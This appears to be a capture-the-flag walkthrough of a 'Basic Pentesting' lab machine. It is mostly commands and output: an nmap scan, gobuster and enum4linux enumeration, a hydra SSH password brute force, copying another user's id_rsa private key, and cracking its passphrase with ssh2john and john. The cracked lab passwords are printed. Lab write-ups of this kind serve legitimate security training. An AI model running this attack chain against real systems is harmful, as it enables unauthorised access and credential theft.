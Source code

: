 #	Basic Pentesting


##	Scanning Port

	nmap -sC -sV -A 10.10.4.27

	Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-07 20:16 WIB
	Nmap scan report for 10.10.4.27
	Host is up (0.49s latency).
	Not shown: 996 closed ports
	PORT     STATE SERVICE     VERSION
	22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
	|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
	|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
	139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
	8009/tcp open  ajp13?
	|_ajp-methods: Failed to get a valid response for the OPTION request
	Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

	Host script results:
	|_clock-skew: mean: 1h20m00s, deviation: 2h18m34s, median: 0s
	|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
	| smb-os-discovery: 
	|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
	|   Computer name: basic2
	|   NetBIOS computer name: BASIC2\x00
	|   Domain name: \x00
	|   FQDN: basic2
	|_  System time: 2021-07-07T09:20:59-04:00
	| smb-security-mode: 
	|   account_used: guest
	|   authentication_level: user
	|   challenge_response: supported
	|_  message_signing: disabled (dangerous, but default)
	| smb2-security-mode: 
	|   2.02: 
	|_    Message signing enabled but not required
	| smb2-time: 
	|   date: 2021-07-07T13:20:59
	|_  start_date: N/A

	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 266.78 seconds


##	Scanning Hidden Directory on website

	gobuster dir -u http://10.10.4.27/ -w /usr/share/dirb/wordlists/common.txt

	/development

##	Brutefore Username in IP ADDRESS

	enum4linux -a <IP ADDRESS> > <Output File>.txt

	We got 2 username, 'jan' and 'kay'

##	Bruteforce Password using Username

	hydra -l <Username> -P /home/rehan/Desktop/rockyou.txt ssh://<IP ADDRESS>

	Username	: jan
	Passwrod	: armando

## Connect to Machine using SSH

	ssh <username>@<IP ADDRESS>

	ssh jan@10.10.4.27

## We found another user directory & We got the private key in .ssh directory

	/home/kay/.ssh/id_rsa (copy contents inside this file into another file)

## Decrypt that private key using ssh2john.py

	python /usr/share/john/ssh2john.py id_rsa > <Output file>

	python /usr/share/john/ssh2john.py id_rsa > hash

## Decrypt the hash file using john the ripper

	john hash --wordlist=/home/rehan/Desktop/rockyou.txt

	Result:
		id_rsa:beeswax

		1 password hash cracked, 0 left

## Connect to Machine using private key and kay username

	ssh -i id_rsa kay@<IP ADDRESS>

	ssh -i id_rsa kay@10.10.4.27

## Print the pass.bak file using cat to answer the last task

	cat pass.bak

	heresareallystrongpasswordthatfollowsthepasswordpolicy$$
